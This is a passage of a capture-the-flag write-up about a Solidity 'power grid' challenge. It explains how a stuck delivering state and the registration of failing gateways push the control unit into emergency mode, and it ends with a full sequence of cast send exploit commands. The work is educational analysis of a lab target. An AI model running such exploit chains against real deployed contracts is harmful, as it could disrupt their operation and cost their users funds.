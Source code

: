 ```solidity
// Setup.sol
function isSolved() public view returns (bool) {
        uint8 CU_STATUS_EMERGENCY = 3;
        (uint8 status, , , , ) = TARGET.controlUnit();
        return status == CU_STATUS_EMERGENCY;
    }
```
In short, the challenge is solved when the control unit enters into emergency mode.

Once we understood the above vulnerabilities and overall functionality of the app, we can already see how all of the puzzle pieces are coming together and we can put together an exploit chain.

## Wrapping It All Up – The Exploit Plan

Analysing the source code of the blockchain application, identifying the flaws and vulnerabilities, we can put together a straightforward and concrete plan on how to crash the power grid.

1. Use `requestQuotaIncrease` to pay the quota (4 ether /piece).  
2. Trigger `requestPowerDelivery` to set `DELIVERING` state.  
3. Repeatedly register failing gateways (`registerGateway`, 20 ether /each).  
4. Run `infrastructureSanityCheck` to update the healthy percentage.  
5. Once healthy percentage < 50%, emergency mode triggers and we win!  

Check out a quick flow chart that visualizes the sequential logic steps of the exploit scenario.

![image](https://github.com/user-attachments/assets/253d7671-b369-4fec-be78-20724e9309d9)

### What this means in layman’s terms?

This challenge was about exploiting a stuck state in a smart contract-based power grid system. Normally, the system tracks healthy gateways (nodes that can deliver power). By triggering a stuck “delivering” state (using requestPowerDelivery), the system stopped cleaning up inactive gateways. We then registered extra failing gateways to dilute the healthy percentage.

Finally, when the healthy percentage dropped below 50%, the infrastructureSanityCheck confirmed the system was unhealthy, triggering emergency mode — our goal! In essence: overloading the system’s perception of “health” by adding too many failing gateways until it triggers emergency shutdown — a classic logic bomb exploiting flawed health-check logic.

This challenge demonstrates that even a small bug like forgetting to reset status can break complex state logic and cause large security issues. Also how important are robust health-checks, since the weak logic was easy to abuse and exploitable. This being a reminder how robust healt checks logic is vital in blockchain applications.

## Exploit

```bash
# Increase quota twice
cast send $TARGET "requestQuotaIncrease(uint8)" 0 --value 4ether --private-key $PRIVATE_KEY --rpc-url $RPC_URL
cast send $TARGET "requestQuotaIncrease(uint8)" 1 --value 4ether --private-key $PRIVATE_KEY --rpc-url $RPC_URL

# Stuck 'delivering' state
cast send $TARGET "requestPowerDelivery(uint256,uint8)" 1000000000000000000 0 --private-key $PRIVATE_KEY --rpc-url $RPC_URL

# Register 3 failing gateways
cast send $TARGET "registerGateway()" --value 20ether --private-key $PRIVATE_KEY --rpc-url $RPC_URL
cast send $TARGET "registerGateway()" --value 20ether --private-key $PRIVATE_KEY --rpc-url $RPC_URL
cast send $TARGET "registerGateway()" --value 20ether --private-key $PRIVATE_KEY --rpc-url $RPC_URL

# Update health percentage
cast send $TARGET "infrastructureSanityCheck()" --private-key $PRIVATE_KEY --rpc-url $RPC_URL

```